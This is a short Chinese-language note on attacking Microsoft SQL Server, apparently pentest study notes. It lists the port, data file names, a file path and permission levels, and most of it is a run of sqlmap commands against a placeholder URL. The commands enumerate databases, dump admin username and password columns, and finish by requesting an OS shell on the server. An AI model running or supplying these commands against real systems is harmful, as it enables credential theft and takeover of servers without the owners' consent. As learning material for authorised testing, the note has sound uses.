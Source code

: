# SqlServer
端口 1433

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```
